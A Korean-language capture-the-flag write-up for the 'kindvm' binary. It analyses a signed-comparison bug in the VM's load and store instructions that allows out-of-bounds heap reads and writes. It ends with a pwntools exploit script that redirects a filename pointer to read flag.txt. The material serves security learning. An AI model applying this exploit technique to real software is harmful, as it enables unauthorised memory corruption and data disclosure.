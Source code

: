 # 문제
***

kindvm 바이너리의 checksec 결과는 다음과 같다.
```
CANARY    : ENABLED
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial

```

file 명령어 결과는 다음과 같다.
```
kindvm: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=8f9180cac21d47474ed903aea39dd56c7dc9f495, not stripped
```

바이너리 코드

__main()__
```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  ctf_setup();
  kindvm_setup();
  input_insn();             # read(0, insn, 0x400u);
  (*(void (**)(void))(kc + 16))();    # open_read_write(*(char **)(kc + 12));
  while ( !*(_DWORD *)(kc + 4) )
    exec_insn();
  (*(void (**)(void))(kc + 20))(); open_read_write(*(char **)(kc + 12));
  return 0;
}
```

__kindvm_setup()__

kindvm_setup() 실행 결과는 다음과 같다.

kc
```
| ptr_of_heap_sec1 |
```

heap_sec1 (v0)
```
| 0x00000000 (program counter 역할) | 0x00000000 | ptr_of_heap_sec2 | ptr_of_banner.txt | ptr_of_func_greeting | ptr_of_func_farewell
```

v0[1]에 1이 들어가면 while문이 종료됨.

heap_sec2 (dest)
```
사용자로부터 입력 받은 9바이트 문자열
```

이외에 메모리와 레지스터, 그리고 명령어 저장 역할을 하는 mem, reg, insn이 할당되고 func_table을 구성한다.  

func_table= {insn_nop, insn_load, insn_store, insn_mov, insn_add, insn_sub, insn_halt, insn_in, insn_out, insn_hint}

위 함수 중에서 취약점이 존재하는 함수는 __insn_load()__ 와 __insn_store()__ 이다. (mem에 저장된 값을 reg에 옮기는 함수, reg에 저장된 값을 mem에 쓰는 함수)

__insn_load()__
```
int insn_load()
{
...
  v2 = load_insn_uint8_t();
  v3 = load_insn_uint16_t();
  if ( v2 > 7u )
    kindvm_abort();
  if ( v3 > 0x3FC )
    kindvm_abort();
  v0 = (char *)reg + 4 * v2;
  result = load_mem_uint32_t(v3);
  *v0 = result;
  return result;
}
```

위 코드는 insn에서 각각 1byte와 2byte를 읽어와서 v2, v3에 저장하고 이 값을 각각 0x7, 0x3FC와 비교한다.
비교하는 코드의 어셈블리어는 아래와 같다.

```
   0x08048ca4 <+7>:	call   0x8048a1d <load_insn_uint8_t>
   0x08048ca9 <+12>:	mov    BYTE PTR [ebp-0xb],al
   0x08048cac <+15>:	call   0x8048a3a <load_insn_uint16_t>
   0x08048cb1 <+20>:	mov    WORD PTR [ebp-0xa],ax
   0x08048cb5 <+24>:	cmp    BYTE PTR [ebp-0xb],0x7
   0x08048cb9 <+28>:	jbe    0x8048cc0 <insn_load+35>
   0x08048cbb <+30>:	call   0x80487d0 <kindvm_abort>
   0x08048cc0 <+35>:	cmp    WORD PTR [ebp-0xa],0x3fc
   0x08048cc6 <+41>:	jle    0x8048ccd <insn_load+48>
   0x08048cc8 <+43>:	call   0x80487d0 <kindvm_abort>
```

여기서 ja, jb 계열은 unsigned 값에 대해서 비교하고 jg, jl은 signed 값에 대한 비교를 하는 명령어이다. (ida 디컴파일 결과에서 v3가 int16 자료형이고 v2는 unsigned int8 자료형인 것을 통해서도 알 수 있는듯)
따라서 0x08048cc0에서 [ebp-0xa]에 (즉, v3) 음수값이 (0x8000 ~ 0xffff) 저장돼 있으면 if문을 통과할 수 있다. 이를 통해서 heap에서 메모리 보다 앞에 할당된 영역의 값을 읽어오고 그 영역에 원하는 값을 덮어쓸 수 있다. (load_mem_uint32_t와 store_mem_uint32_t에서 v3 값에 대해서 movsx 명령어를 사용함)


힙 할당 순서는 v0 -> dest -> mem -> reg -> insn

따라서 insn_load(), insn_store()를 통해서 v0, dest에 저장된 값을 읽어오고 덮어쓸 수 있다.


## exploit 방법
1. heap_sec2 (dest)에 "flag.txt"를 넣는다.
2. insn_load()를 이용해서 reg에 dest의 주소 (kc+8에 위치)를 저장한다.
3. reg에 저장된 값을 insn_store()를 통해서 *(kc+0xc)에 넣는다.
4. insn_halt()를 호출해서 while문을 빠져나오면 ```  (*(void (**)(void))(kc + 20))()```를 통해서 func_farewell()이 실행된다. 이를 통해서 flag.txt에 저장된 값을 얻을 수 있다.


got overwrite로 쉘을 따고 싶었는데 mem에서 got 영역까지의 거리가 너무 멀어서 mem+ffffXXXX로 got 영역까지 갈 수가 없었다. 그래서 쉘 따는 것은 포기했다.

# 풀이
***
```
#!/usr/bin/python

from pwn import *

file_path="/home/sungyun/round2/kindvm/kindvm"

p=process(file_path)

p.recvuntil("name : ")
p.sendline("flag.txt\x00")

p.recvuntil("instruction : ")

pay="\x01"+"\x00"+"\xff\xd8"
pay+="\x02"+"\xff\xdc"+"\x00"
pay+="\x06"

p.send(pay)

p.recvuntil("start!\n"+"\x00")

print p.recv()

```
# 알게 된 것
***
1. (pwntools의 process를 통해서) 파이썬 코드 내에서 새로운 프로세스를 실행하면 해당 프로세스의 기본 디렉토리는 파이썬 코드가 실행되고 있는 디렉토리이다.
   (pwntools의 remote를 통해서) 파이썬 코드를 통해서 다른 서버에서 돌아가고 있는 프로세스와 통신하면 해당 프로세스의 기본 디렉토리는 파이썬 코드가 실행되고 있는 디렉토리가 아니라 서버에서 프로세스가 위치하고 있는 디렉토리이다.
2. kindvm 같은 문제는 아래와 같이 사용되는 함수 (명령어)마다 함수로 선언 해놓고 사용하는 것이 좋다.
```
def op_load(reg_dst, mem_src):
    res = ''
    res += chr(1)
    res += chr(reg_dst)
    res += p16(mem_src & 0xffff)
    return res
```

3. gdb에 프로세스를 attach하거나 gdb에서 프로세스를 실행하면 signal 함수를 무시할 수 있는듯(?) 

(ex) ```signal(14,signal_handler_timeout); return alarm(5u)```를 통해 프로세스를 종료하려는 것을 무시할 수 있다.)
